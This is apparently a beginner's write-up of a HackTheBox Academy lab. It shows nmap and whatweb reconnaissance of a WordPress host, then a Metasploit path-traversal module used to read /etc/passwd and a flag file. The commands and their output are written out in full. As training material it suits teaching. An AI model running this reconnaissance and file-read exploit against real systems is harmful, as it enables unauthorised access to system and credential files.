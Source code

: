 ```yaml
---
module: getting started
section: public exploits
url: https://academy.hackthebox.com/module/77/section/843
---
```


the solution is pretty simple, though i was confused at first that the `nmap` scan didn't reveal any smb service running on the host machine (as the entire section revolves around exploiting the EternalBlue vulnerability).

```
$ nmap -sC -sV 94.237.51.10 -v

...snip...

PORT      STATE    SERVICE VERSION
19/tcp    filtered chargen
22/tcp    open     ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey:
|   3072 98:aa:48:28:67:de:3f:ef:39:4a:8b:39:d8:28:96:50 (RSA)
|   256 5d:bc:77:53:c6:a0:72:1c:e4:b0:ca:7b:8a:87:15:b5 (ECDSA)
|_  256 ec:9f:18:af:f9:2e:3c:07:71:23:5c:9d:51:55:b4:d5 (ED25519)
40193/tcp open     http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: HTB Academy
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-robots.txt: 1 disallowed entry
|_/admin-login-page.php
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

a scan against the port given in the challenge reveals yet another http service running:

```
$ nmap -sC -sV 94.237.51.10 -v -p43457

... snip ...

PORT      STATE    SERVICE VERSION
43457/tcp open     http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Getting Started &#8211; Just another WordPress site
|_http-generator: WordPress 5.6.1
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

whatweb didn't reveal anything that looked suspicious to me as a beginner

```
$ whatweb 94.237.51.10:43457 -v
WhatWeb report for http://94.237.51.10:43457
Status    : 200 OK
Title     : Getting Started &#8211; Just another WordPress site
IP        : 94.237.51.10
Country   : FINLAND, FI

Summary   : Apache[2.4.41], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], MetaGenerator[WordPress 5.6.1], PoweredBy[--], Script, UncommonHeaders[link], WordPress[5.6.1]

Detected Plugins:
[ Apache ]
        The Apache HTTP Server Project is an effort to develop and
        maintain an open-source HTTP server for modern operating
        systems including UNIX and Windows NT. The goal of this
        project is to provide a secure, efficient and extensible
        server that provides HTTP services in sync with the current
        HTTP standards.

        Version      : 2.4.41 (from HTTP Server Header)
        Google Dorks: (3)
        Website     : http://httpd.apache.org/

[ HTML5 ]
        HTML version 5, detected by the doctype declaration


[ HTTPServer ]
        HTTP server header string. This plugin also attempts to
        identify the operating system from the server header.

        OS           : Ubuntu Linux
        String       : Apache/2.4.41 (Ubuntu) (from server string)

[ MetaGenerator ]
        This plugin identifies meta generator tags and extracts its
        value.

        String       : WordPress 5.6.1

[ PoweredBy ]
        This plugin identifies instances of 'Powered by x' text and
        attempts to extract the value for x.

        String       : --

[ Script ]
        This plugin detects instances of script HTML elements and
        returns the script language/type.


[ UncommonHeaders ]
        Uncommon HTTP server headers. The blacklist includes all
        the standard headers and many non standard but common ones.
        Interesting but fairly common headers should have their own
        plugins, eg. x-powered-by, server and x-aspnet-version.
        Info about headers can be found at www.http-stats.com

        String       : link (from headers)

[ WordPress ]
        WordPress is an opensource blogging system commonly used as
        a CMS.

        Version      : 5.6.1
        Aggressive function available (check plugin file or details).
        Google Dorks: (1)
        Website     : http://www.wordpress.org/

HTTP Headers:
        HTTP/1.1 200 OK
        Date: Fri, 15 Dec 2023 18:26:09 GMT
        Server: Apache/2.4.41 (Ubuntu)
        Link: <http://94.237.51.10:43457/index.php/wp-json/>; rel="https://api.w.org/"
        Vary: Accept-Encoding
        Content-Encoding: gzip
        Content-Length: 3353
        Connection: close
        Content-Type: text/html; charset=UTF-8
```

opening the website in a browser gives us this

![the target website](images/2023-12-15-htb-academy-getting-started-public-exploits/target-website.png)

at this point i wasn't sure if i was missing something, as i was still wondering when that eternalblue context would come in handy. spoiler: it won't...

so impatient me checked the hint:

> Search for plugin exploits

at least i was on the right track. while running `searchsploit simple backup plugin 2.7.10` didn't return any results, googling for `Simple Backup Plugin 2.7.10 vulnerability` brought me here: https://www.wordfence.com/threat-intel/vulnerabilities/wordpress-plugins/simple-backup/simple-backup-2710-arbitrary-file-download-via-path-traversal

a "arbitrary file download"-exploit. interesting! since the goal of the task was to download a flag.txt file this sounded promising.

so i started metasploit's `msfconsole` and ran

```
> search simple backup

Matching Modules
================

   #  Name                                               Disclosure Date  Rank    Check  Description
   -  ----                                               ---------------  ----    -----  -----------
   0  auxiliary/scanner/http/wp_simple_backup_file_read                   normal  No     WordPress Simple Backup File Read Vulnerability
```

nice, next up:

```
> use auxiliary/scanner/http/wp_simple_backup_file_read
> show options

Module options (auxiliary/scanner/http/wp_simple_backup_file_read):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   DEPTH      6                yes       Traversal Depth (to reach the root folder)
   FILEPATH   /etc/passwd      yes       The path to the file to read
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       The base path to the wordpress application
   THREADS    1                yes       The number of concurrent threads (max one per host)
   VHOST                       no        HTTP server virtual host

> set RHOSTS 94.237.51.10
RHOSTS => 94.237.51.10
> set RPORT 43457
RPORT => 43457
> run

[+] File saved in: /home/kali/.msf4/loot/20231215194509_default_94.237.51.10_simplebackup.tra_527647.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

this downloaded the /etc/passwd file which didn't give me any specific clues. however, the task was to "download /flag.txt", so i decided to change the filepath to `/flag.txt`

```
> set FILEPATH /flag.txt
FILEPATH => /flag.txt
> run

HTB{... redacted ...}

[+] File saved in: /home/kali/.msf4/loot/20231215195613_default_94.237.51.10_simplebackup.tra_360626.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

and there we have it. my first hack 😎
